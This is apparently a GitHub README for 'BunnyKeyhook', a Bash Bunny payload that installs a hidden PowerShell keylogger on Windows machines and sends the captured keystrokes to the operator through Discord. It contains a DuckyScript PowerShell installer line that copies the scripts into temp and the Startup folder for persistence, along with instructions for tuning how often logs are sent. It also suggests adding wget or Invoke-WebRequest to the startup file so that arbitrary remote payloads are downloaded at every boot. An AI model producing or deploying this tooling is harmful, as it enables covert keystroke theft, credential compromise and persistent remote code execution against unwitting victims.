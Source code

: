 # BunnyKeyhook
> Chris Taylor [Blue Cosmo]
---

```
__________                            ____  __.            .__                   __    
\______   \__ __  ____   ____ ___.__.|    |/ _|____ ___.__.|  |__   ____   ____ |  | __
 |    |  _/  |  \/    \ /    <   |  ||      <_/ __ <   |  ||  |  \ /  _ \ /  _ \|  |/ /
 |    |   \  |  /   |  \   |  \___  ||    |  \  ___/\___  ||   Y  (  <_> |  <_> )    < 
 |______  /____/|___|  /___|  / ____||____|__ \___  > ____||___|  /\____/ \____/|__|_ \
        \/           \/     \/\/             \/   \/\/          \/                   \/   
```

## Overview:
```
BunnyKeyhook is a BashBunny payload that uses PowerShell to log keystrokes. It will send the logs to you via discord. The keylogger almost gives you a "live feed" of their keystrokes through discord. However, you can tweak the timing to get the logs sent to you quick
```
- moves *c.cmd* file to windows startup directory
- *c.cmd* will secretly run *p.ps1*
- *p.ps1* will log keystrokes 
- *l.ps1* will execute *p.ps1* every minue
    - this can be changed to a preferred delay

## Resources:
- [YouTube Video](https://youtu.be/U74QqEa4GRc)
- [YouTube Channel](https://youtube.com/cosmodiumcs)
- [Website](https://cosmodiumcs.com)

## Requirements:
- Windows Target

## Instructions:
Set-Up/Installation
1. in line 17 of *duckyscript.txt*, change change `'BashBunny'` to the name of your Bash Bunny
2. in line 17 *duckyscript.txt*, change `switch1` to switch position that stores the paylaod
    - make sure to replace *all* appearances of `switch1` if you decide to change 
```powershell
STRING $u=gwmi Win32_Volume|?{$_.Label -eq'BashBunny'}|select name;cd $u.name;cp .\payloads\switch1\p.ps1 $env:temp;cp .\payloads\switch1\l.ps1 $env:temp;cp .\payloads\switch1\c.cmd "C:/Users/$env:UserName/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup";cd $env:temp;echo "">"$env:UserName.log";
```

## Log Sending Delay
Changing the delay between log sends
1. in line 12 of *l.ps1*, change `60` to your preferred number of seconds
```powershell
Start-Sleep 60
```

## Extraneous:
The *c.cmd* attack opportunity
```
the c.cmd file runs every startup.
this means an attacker could place a
'wget' or 'Invoke-WebRequest' and have a file
be downloaded from anywhere on the internet onto the computer.
the file would then save in the startup directory,
allowing it to run every startup
```
---
- hope you enjoy the payload!!
- please subscribe to my [YouTube channel](https://youtube.com/cosmodiumcs) :)
